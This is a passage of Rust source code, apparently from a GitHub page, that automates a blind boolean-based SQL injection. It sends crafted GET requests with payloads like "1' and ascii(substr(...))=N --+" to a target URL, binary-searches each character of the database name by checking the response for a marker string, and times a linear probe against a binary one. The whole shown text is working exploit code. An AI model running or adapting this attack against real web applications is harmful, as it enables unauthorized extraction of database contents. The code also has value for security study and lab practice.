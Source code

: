 ```rust

    let mut j = 1;
    let mut exit_flag = false;
    while !exit_flag {
        // always assume we will exit in this loop
        exit_flag = true;

        let mut low = 32u8;
        let mut high = 126u8;
        while high >= low {
            let mid = (low + high) / 2;
            let payload = format!(
                "1' and ascii(substr({},{},{}))={} --+",
                sql_payload, j, j, mid
            );
            let url = format!("{}{}", BASE_URL, payload);
            let r = reqwest::blocking::get(url)?;
            let body = r.text()?;
            if body.contains(MARK) {
                db_name.push(mid as char);
                println!("database: {}", db_name);
                exit_flag = false;
                break;
            }

            // another test for narrow down left or right range to search
            let payload = format!(
                "1' and ascii(substr({},{},{}))>{} --+",
                sql_payload, j, j, mid
            );
            let url = format!("{}{}", BASE_URL, payload);
            let r = reqwest::blocking::get(url)?;
            let body = r.text()?;
            match body.contains(MARK) {
                true => low = mid + 1,
                false => high = mid - 1,
            }
        }
        j += 1;
    }

    Ok(db_name)
}

fn main() {
    measure_time("Linear".to_string(), || {
        let _ = probe_database_linear();
    });

    let _ = measure_time("Binary".to_string(), || {
        let _ = probe_database_binary();
    });
}
```
